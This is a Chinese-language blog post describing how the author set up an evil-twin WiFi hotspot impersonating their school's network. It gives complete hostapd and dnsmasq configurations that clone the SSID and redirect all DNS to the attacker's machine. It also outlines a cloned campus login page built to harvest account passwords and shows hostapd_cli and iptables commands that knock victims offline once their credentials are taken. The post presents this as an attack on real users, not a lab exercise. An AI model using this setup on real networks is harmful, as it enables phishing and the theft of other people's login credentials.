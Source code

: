 title:WIFI 热点欺骗
Date: 2014-11-23 15:21
Modified: 2014-11-23 15:21
Category: web
Tags: WIFI, Linux
Slug: real-attack-show-wifi-vulnerability
Authors: nullne
Summary:
_很久以前看过一篇关于WIFI脆弱性的[介绍](http://fex.baidu.com/blog/2014/04/traffic-hijack/)(找了好久终于被我找到了)，其中有一部分讲的是由于本身协议的弱点，相同 ssid 的热点会被合并为同一个，至于用户最终连接哪个热点取决于他所能接收到的信号强度。不知道此刻各位看官脑洞有没有大开？_

_俗话说杀生不如宰熟，所以直接就向学校 ap 下手了。提前声明几个全局变量：_

```
ssid: NICESHOT
os： ubuntu
```


###简单部署
####用 hostapd 建立热点
>“**hostapd** is a user space daemon for access point and authentication servers. “

```
sudo apt-get install hostapd
```
更改配置文件 _/etc/hostapd-hotspot.conf_ 如下：
```
# WiFi Hotspot
interface=wlan0
driver=nl80211
#Access Point
ssid=NICESHOT
hw_mode=g
# WiFi Channel:
channel=1
#macaddr_acl=0
auth_algs=1
wmm_enabled=0
#ignore_broadcast_ssid=0
#wpa=3
#wpa_passphrase=1
#wpa_key_mgmt=WPA-PSK
#wpa_pairwise=TKIP
#rsn_pairwise=CCMP
ctrl_interface=/var/run/hostapd
```
可能还需要更改 _/etc/default/hostapd_ 为
```
DAEMON_CONF=/etc/hostapd/hostapd.conf
```
然后测试配置文件`hostapd -d /etc/hostapd-hotspot.conf`,  没有什么问题的话就可以启动服务了
```
service hostapd start
```
####微型 DNCP & DNS -- dnsmasq
>Dnsmasq is a free software DNS forwarder and DHCP server for small networks. It is considered to be easily configured, with low system resource usage.

```
sudo apt-get install dnsmasq
```
更改配置文件 _/etc/dnsmasq.conf_
```
log-facility=/var/log/dnsmasq.log
address=/#/192.168.1.1
interface=wlan0                                                                             
dhcp-range=192.168.1.20,192.168.1.254,12h
no-resolv 
```
然后比较关键的是配置 **wlan0** IP 地址 `ifconfig wlan0 192.168.1.1`。

稍微总结一下，到此为止，我们做了这么些事情：创建 WFIFI 热点，监听 **wlan0** 口，然后通过配置DHCP给所有连接到此 AP 的终端分配IP地址。另外上面的这条配置`address=/#/192.168.1.1`，将所有地址解析到我们的电脑 IP。
####搭建服务器
此处就不详说了，最终达到的效果是访问 `192.168.1.1`是我们的钓鱼网站。

因为校园网需要登陆，也就是说连接校园 AP 之后将所有 HTTP 页面跳转到网关登陆界面。所以我们也部署一个一模一样的登陆网关，然后所有连接的用户跟往常一样登陆网关，神不知鬼不觉得就把账号密码泄露过来了。稍后我会分享此处的简单代码 DEMO 到 GitHub。
###进阶
当然不能停止在这么简陋的东西上面，我们需要更进一步。
####粗暴的强制下线
毕竟我们只有一个无线网卡，用作 AP 之后就不能接入其他网络了，环境也不允许拉一根网线，用户登录网关之后根本没办法继续上网，很快你的伪 AP 就会被发现。所以我们强制所有登录网关，也就是被我们窃取密码的用户离线。
```
hostapd_cli deauthenticate 38:bc:1a:88:12:61                                                     
iptables -A INPUT -m mac --mac-source 38:bc:1a:88:12:61 -j DROP
```
第一句强制用户离线，之前在配置 hostapd 的时，这句就是为了达到这个目的 `ctrl_interface=/var/run/hostapd`，第二句将所有该设备的请求丢弃。这就是当一个人丧失所有利用价值之后的下场！
####配置更为合理的 iptables（还没有实现）
当然，前提是我们自己的电脑还可以通过其他口，比如 _eth0_，访问正常网络。

通过配置合理强大的 **iptables**,精心布局，我们不仅仅获取网关密码这么简单的并且还需要特别严格苛刻的场景的蛋糕。拭目以待。。。
###思考
###后记
####伤敌一百，自损三千
因为自己的装备跟技术很挫，在配置之前那些东西的时候碰到了一些问题，险些出师未捷身先死。

在 ubuntu 下，`service networking restart`,然后你就各种问题爽翻天
- 现在，至少目前为止插上网线之后还需要 `ifup eth0` 才能通过有线上网
- 现在，至少目前为止我连接 WIFI 的时候需要这么做（运气好的话差不多能连接上）
```
ifup wlan0   #up the wlan port 
iwlist wlan0 scan #list availabel wifi ssid
iwconfig wlan0 essid "NICESHOT"  #no password
iwconfig wlan0 ssid "NICESHOT" key password   #with password
dhcpclient wlan0   #get ip via dhcp 
```
- 电脑里面出现了奇怪的端口:wlan0:avahi
- 系统自带的 network-manager 罢工了
- 其他未知错误待续

